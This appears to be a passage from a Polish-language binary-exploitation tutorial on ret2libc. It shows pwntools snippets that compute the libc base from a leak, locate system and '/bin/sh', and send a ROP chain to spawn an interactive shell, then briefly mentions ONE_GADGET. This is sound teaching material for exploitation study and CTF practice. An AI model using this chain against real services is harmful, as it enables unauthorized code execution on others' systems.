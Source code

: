 W tym momencie powinniśmy znać używaną bibliotekę libc. Ponieważ eksploatujemy lokalny binarny plik, użyję tylko: `/lib/x86_64-linux-gnu/libc.so.6`

Na początku `template.py` zmień zmienną **libc** na: `libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") #Ustaw ścieżkę do biblioteki, gdy ją znamy`

Podając **ścieżkę** do **biblioteki libc**, reszta **eksploatująca zostanie automatycznie obliczona**.

Wewnątrz funkcji `get_addr` zostanie obliczony **adres bazowy libc**:
```python
if libc != "":
libc.address = leak - libc.symbols[func_name] #Save libc base
log.info("libc base @ %s" % hex(libc.address))
```
> [!NOTE]
> Zauważ, że **ostateczny adres bazy libc musi kończyć się na 00**. Jeśli tak nie jest, mogłeś wyciekować niepoprawną bibliotekę.

Następnie adres funkcji `system` oraz **adres** do ciągu _"/bin/sh"_ będą **obliczane** na podstawie **adresu bazy** **libc** i podanej **biblioteki libc.**
```python
BINSH = next(libc.search("/bin/sh")) - 64 #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
```
Na koniec przygotowywany jest exploit do wykonania /bin/sh:
```python
rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)

p.clean()
p.sendline(rop2)

#### Interact with the shell #####
p.interactive() #Interact with the conenction
```
Wyjaśnijmy ten ostatni ROP.\
Ostatni ROP (`rop1`) zakończył się ponownym wywołaniem funkcji main, więc możemy **ponownie wykorzystać** **przepełnienie** (dlatego `OFFSET` jest tutaj ponownie). Następnie chcemy wywołać `POP_RDI`, wskazując na **adres** _"/bin/sh"_ (`BINSH`) i wywołać funkcję **system** (`SYSTEM`), ponieważ adres _"/bin/sh"_ zostanie przekazany jako parametr.\
Na koniec **adres funkcji exit** jest **wywoływany**, aby proces **ładnie zakończył działanie** i nie został wygenerowany żaden alert.

**W ten sposób exploit wykona \_/bin/sh**\_\*\* shell.\*\*

![](<../../../../../images/image (143).png>)

## 4(2)- Używając ONE_GADGET

Możesz również użyć [**ONE_GADGET** ](https://github.com/david942j/one_gadget), aby uzyskać shell zamiast używać **system** i **"/bin/sh". ONE_GADGET** znajdzie w bibliotece libc sposób na uzyskanie shellu, używając tylko jednego **adresu ROP**.\
Jednak zazwyczaj istnieją pewne ograniczenia, najczęstsze i łatwe do ominięcia to `[rsp+0x30] == NULL`. Ponieważ kontrolujesz wartości w **RSP**, musisz tylko wysłać kilka dodatkowych wartości NULL, aby ograniczenie zostało ominięte.

